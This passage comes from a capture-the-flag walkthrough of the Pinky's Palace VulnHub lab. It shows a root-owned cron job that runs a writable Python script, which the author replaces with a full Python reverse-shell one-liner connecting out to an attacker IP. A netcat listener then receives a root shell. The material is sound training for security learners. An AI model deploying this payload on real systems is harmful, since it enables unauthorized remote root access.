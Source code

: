 {% highlight python %}
#!/usr/bin/env python

# Soon to be backup script for my palace!
with open("/home/pinky/watch.txt", "a") as myfile:
    myfile.write("test")
{% endhighlight %}

``` text
pinky@pinkys-palace:~$ cat /home/pinky/watch.txt
testtesttesttesttesttest
```

After round about 5 min of examining other regions in the `VM` I looked inside with `cat` and it turns out that there is a `cronjob` running actually. Lets exploit this to get root! All we have to do is sending a `reverse tcp shell` to our attacking machine kali. Since there is also a python version at [pentestmonkeys] we will use this. Modify the `IP` and `Port` to your desire and insert the code into `/usr/local/bin/justincase.py`. (simple echoing removes quotes so just paste it in or else have a look here: [stackoverflow])

{% highlight python %}
#!/usr/bin/env python

# Soon to be backup script for my palace!
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.10",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])
{% endhighlight %}

Last thing to do is listening for an incoming connection with `netcat`.

``` text
root@kali:~# nc -nlvp 1234

Connection from 192.168.0.11:36888
/bin/sh: 0: can't access tty; job control turned off

# whoami
root

# ls
root.txt
test.txt

# cat root.txt
!!!!!CONGRATS YOU GOT ROOT!!!!!

[+] Flag: d6dc7d5b9f99559fc6c91872bc7020af

```
Calling `whoami`. We are `ROOT`!


[VulnHub]: https://www.vulnhub.com/entry/pinkys-palace-v1,225/
[Youtube]: https://www.youtube.com/watch?v=EEgpHGe7euU
[cheat sheet]: https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/
[pentestmonkeys]: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
[dirbusted]: https://tools.kali.org/web-applications/dirbuster
[rebootuser]: https://github.com/rebootuser/LinEnum.git
[stackoverflow]: https://stackoverflow.com/questions/18929149/print-double-quotes-in-shell-programming
[pinkysplanet]: https://pinkysplanet.net/